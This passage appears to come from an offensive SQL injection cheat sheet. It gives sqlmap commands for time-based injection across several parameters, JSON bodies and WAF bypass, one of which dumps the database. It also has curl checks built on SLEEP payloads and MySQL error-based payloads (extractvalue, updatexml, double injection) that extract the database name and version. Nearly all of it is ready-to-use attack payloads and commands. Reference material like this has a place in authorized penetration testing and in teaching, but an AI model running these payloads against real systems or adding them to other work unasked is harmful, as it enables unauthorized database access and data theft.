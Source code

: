 **Multi-Parameter Time-based:**
```bash
# Test multiple parameters simultaneously
sqlmap -u "URL" \
  --data="param1=1&param2=2&param3=3" \
  --technique=T \
  --risk=3 \
  -p "param1,param2,param3"  # Test all parameters

# Test parameters individually (more precise)
sqlmap -u "URL" --data="param1=1&param2=2" --technique=T -p param1
sqlmap -u "URL" --data="param1=1&param2=2" --technique=T -p param2
```

#### Quick Reference: Advanced Time-based
```bash
# High-performance JSON time-based
sqlmap 'URL' -X POST -H 'Content-Type: application/json' --data-raw '{"id":1}' --technique=t --risk=3 --level=5 --batch --dump

# WAF bypass time-based  
sqlmap -u "URL" --technique=T --tamper=between,randomcase --random-agent --delay=3

# Network-optimized time-based
sqlmap -u "URL" --technique=T --time-sec=7 --timeout=60 --retries=5 --threads=1

# Manual verification
curl -w "%{time_total}" -d "id=1 AND SLEEP(5)" URL    # Should show ~5 seconds
curl -w "%{time_total}" -d "id=1 AND SLEEP(0)" URL    # Should be fast

# Troubleshooting no detection
sqlmap -u "URL" --risk=3 --level=5 --technique=T --time-sec=10 --timeout=30
```

---

## Error-based Injection

### MySQL Error-based
```sql
-- ExtractValue error injection
admin' and extractvalue(1, concat(0x7e, (select database()), 0x7e))-- -
admin' and extractvalue(1, concat(0x7e, (select version()), 0x7e))-- -

-- UpdateXML error injection  
admin' and (updatexml(1,concat(0x7e,(select database()),0x7e),1))-- -

-- Double injection
admin' and (select 1 from (select count(*),concat(database(),floor(rand(0)*2))x from information_schema.tables group by x)a)-- -
```
